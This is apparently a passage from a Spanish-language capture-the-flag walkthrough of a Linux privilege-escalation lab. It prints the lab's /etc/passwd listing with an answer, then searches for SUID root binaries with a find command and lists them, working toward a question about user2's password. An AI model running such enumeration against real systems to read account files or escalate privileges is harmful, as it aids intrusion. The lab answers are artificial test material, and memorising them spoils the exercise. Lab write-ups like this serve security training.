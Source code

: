 ```
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash

gerryconway:x:1001:1001::/home/gerryconway:/bin/sh

user2:x:1002:1002::/home/user2:/bin/sh
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
karen:x:1003:1003::/home/karen:/bin/sh
karen@ip-10-10-38-105:/$ 

gerryconway
```

### What is the password of user2?

#### Buscamos suid
```
karen@ip-10-10-38-105:/$ find / -user root -perm /4000 2>/dev/null
/snap/core/10185/bin/mount
/snap/core/10185/bin/ping
/snap/core/10185/bin/ping6
/snap/core/10185/bin/su
/snap/core/10185/bin/umount
/snap/core/10185/usr/bin/chfn
/snap/core/10185/usr/bin/chsh
/snap/core/10185/usr/bin/gpasswd
/snap/core/10185/usr/bin/newgrp
/snap/core/10185/usr/bin/passwd
/snap/core/10185/usr/bin/sudo
/snap/core/10185/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/10185/usr/lib/openssh/ssh-keysign
/snap/core/10185/usr/lib/snapd/snap-confine
/snap/core/10185/usr/sbin/pppd
/snap/core18/1885/bin/mount
/snap/core18/1885/bin/ping
/snap/core18/1885/bin/su
/snap/core18/1885/bin/umount
/snap/core18/1885/usr/bin/chfn
/snap/core18/1885/usr/bin/chsh
/snap/core18/1885/usr/bin/gpasswd
/snap/core18/1885/usr/bin/newgrp
/snap/core18/1885/usr/bin/passwd
/snap/core18/1885/usr/bin/sudo
/snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1885/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
```